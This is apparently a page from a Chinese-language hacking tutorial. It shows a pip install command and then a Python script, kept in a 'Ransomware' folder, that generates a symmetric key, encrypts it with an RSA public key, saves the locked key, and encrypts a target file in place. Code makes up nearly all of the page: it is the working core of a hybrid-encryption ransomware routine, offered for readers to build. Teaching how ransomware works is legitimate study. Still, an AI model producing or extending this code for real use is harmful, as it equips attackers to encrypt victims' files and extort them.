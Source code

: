 ```
kali@kali:~$ pip3 install cryptography
```

安装库后，打开一个文本编辑器，如 Mousepad，并输入以下内容：

```
   from cryptography.hazmat.backends import default_backend

   from cryptography.hazmat.primitives import serialization

   from cryptography.hazmat.primitives.asymmetric import padding

   from cryptography.hazmat.primitives import hashes

   from cryptography.fernet import Fernet

➊ symmetricKey  = Fernet.generate_key()

   FernetInstance = Fernet(symmetricKey)

➋ with open("/home/prof/Desktop/Ransomware/public_key.key", "rb") as key_file:

       public_key = serialization.load_pem_public_key(

           key_file.read(),

           backend=default_backend()

        )

   encryptedSymmetricKey = public_key.encrypt(

       symmetricKey,

    ➌ padding.OAEP(

           mgf=padding.MGF1(algorithm=hashes.SHA256()),

        ➍ algorithm=hashes.SHA256(),

           label=None

       )

   )

➎ with open("encryptedSymmertricKey.key", "wb") as key_file:

           key_file.write(encryptedSymmetricKey)

   filePath = "/home/kali/Desktop/Ransomware/FileToEncrypt.txt"

   with open(filePath, "rb") as file:

       file_data = file.read()

    ➏ encrypted_data = FernetInstance.encrypt(file_data)

   with open(filePath, "wb") as file:

       file.write(encrypted_data)

   quit()
```
